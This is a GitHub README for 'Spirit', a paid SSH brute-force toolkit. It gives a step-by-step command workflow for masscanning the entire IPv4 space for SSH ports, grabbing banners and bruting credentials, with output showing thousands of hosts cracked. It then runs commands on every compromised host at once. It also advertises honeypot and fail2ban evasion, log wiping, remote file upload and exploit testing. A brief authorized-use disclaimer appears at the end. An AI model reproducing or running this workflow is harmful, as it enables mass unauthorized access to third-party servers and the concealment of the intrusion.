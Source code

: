 # Spirit - Network Pentest Tools

### [Download the latest Spirit release](https://github.com/theaog/spirit/releases)

> [`$ ./spirit --help`](./HELP) shows you all the included tools commands. \
some commands have subcommands `./spirit <command> --help`

> [Spirit Partner Program](./PARTNER.md)

## Example usage for SSH brute flow
```bash
# First scan your network or the internet (check disclaimer) to acquire a list of open ports.
$ masscan \
    --rate="50000" \
    --ports "22,222,2222,2212" 0.0.0.0/0 \
    --exclude 255.255.255.255 \
    -oG open.lst
Scanning 4294967295 hosts [4 ports/host]
# masscan will create an open.lst file in oG (output Greppable) format.

# Parse open.lst to format the data, so that spirit can understand it.
$ ./spirit parse open.lst
INFO created h.lst in HOST:PORT format

# create a filter.lst file if you want to skip certain SSH versions.
$ cat >filter.lst<< EOF
SSH-1.0
SSH-2.0-CISCO
SSH-2.0-Comware
EOF

# Test these open ports if they're running SSH by grabbing banners.
# includes custom designed SSH connection flow.
$ ./spirit banner
SSH-2.0-OpenSSH_8.2p  13% [=>                  ] [11s:1m15s]
INFO created b.lst in HOST:PORT:BANNER format
# spirit created a `b.lst` file containing the hosts running SSH and their banner.
head -n1 b.lst
100.100.100.100:2222:SSH-2.0-OpenSSH_6.6.1

# Move the banner output (b.lst) to h.lst so spirit will load it automatically for bruting.
$ mv b.lst h.lst

# Add a password list, spirit will automatically load user:pass from a p.lst file.
$ cat > p.lst << EOF
user1:pass1
user1:pass2
user2:pass50
EOF

# Start bruting...
$ ./spirit brute
INFO loaded h.lst with 26803 hosts
INFO loaded p.lst with 4881 logins
[2478/4653]root:!1qwerty [77]found [33]blocked [1284]threads 20% [====>               ] [20s:1h13m36s]
failed connections statistics:
(    7)  ssh: closed network connection 30s timeout
(    7)  total failed
results stored in:
- found.ssh # for quick manual connect
- found.login # user:pass combinations that worked
- found.lst # used by `spirit omni` for connecting en-masse
out of [26803]hosts [4000]bruted [3000]found [19803]blocked

# Connect to all your found hosts automatically & run commands.
# omni will automatically attempt to connect to hosts present in the found.lst file,
# run commands on them and display the output to you.
$ ./spirit omni -c 'whoami && uptime'
```

> Tip: you can automate these steps with `./spirit forever` for continuous automatic probing on random ports & bruting. ![forever](asset/forever.png)

./spirit upgrade
## Upgrade Spirit automaticaly
```bash
Upgrading 87% [========================>     ] (5.9/5.9 MB, 49.652 MB/s)
```
> *Spirit can self-upgrade only on amd64 aka x86-64 for now. [`donate to speed things up`](#monero-xmr-thank-you)

## Spirit is Free (sorta)
For `local IP` (10/172/192) ranges and up to 1,000 `public IPs`

If you need to pen-test more than 1,000 public IP or need Pro features we charge a small fee to help us support the project development. Use `./spirit buy` to upgrade.

## Spirit Pro
Buy a Spirit Pro license directly from the CLI `./spirit buy`. Every license helps support our development and server costs. If you want to try a Pro feature, ask for a free Pro trial license by opening an [issue](https://github.com/theaog/spirit/issues).

## Key Features
- extracts SSH banners accurately (retry failed hosts) and fast (many threads)
- brute multiple ports at once: 1.1.1.1:22, 1.1.1.1:23, etc.
- brute using private keys `./spirit brute-key --file id_rsa`
- brute auto-blocks honeypots not wasting time nor giving away all your passwords into them
- brute also blocks hosts that are unreachable, or have fail2ban installed (less dull work, faster scanning)
- brute will try every connection twice before blocking unreachable hosts to increase accuracy
- very light on server load, your CPU will thank you!
- `./spirit omni -c 'uptime'` connect to all your hosts at once, upload files and execute remote commands
- `./spirit zap` clean connection logs using 
- `./spirit masscan --zone zone.lst --rate 10_000` masscan whole zones automatically at your own pace 
- `./spirit forever` scan & brute your network on random ports over and over -- spot vulnerabilities before they happen
- `./spirit exploit` test targets for common local and remote exploits
- and more... [`$ ./spirit --help`](./HELP) 

# Support our development
## Monero (XMR) thank you! (our favorite)
`8ATU7h8vJWgJrGHjjG6N9aY69pUsvyFg8WRUxeGPy6jEbcZxRagsWmUN3ZrLpqDqBtHAafTLfnBzCibhvQG3trrNEdGvoTa`

![xmrqr](asset/xmrqr.png)

## Bitcoin (BTC) thank you too!
`bc1q7plm79dgllrhrjz772x4vjrtvu9yy03738psy5`

## Get Help & Support
Open a Github [issue](https://github.com/theaog/spirit/issues) and consider encrypting your message using this pub key [aog.gpg](asset/aog.gpg).

Don't forget to give us a Star!

> NOTICE: rumors have been circulating that `spirit` contains a backdoor -- that's not true, we would never do that.
> We offer a bounty of 50XMR to whomever opens an issue in this repo and provides undeniable proof of the "alleged" backdoor.

# Disclaimer

This tool should be used for authorized penetration testing and/or educational purposes only.
Any misuse of this software will not be the responsibility of the author or of any other collaborator.
Use it on your own systems and/or with the system owner's permission.

Usage of any tools in this repository for attacking targets without prior mutual consent is illegal.
It is the end user’s responsibility to obey all applicable local, state and federal laws.
We assume no liability and are not responsible for any misuse or damage caused.
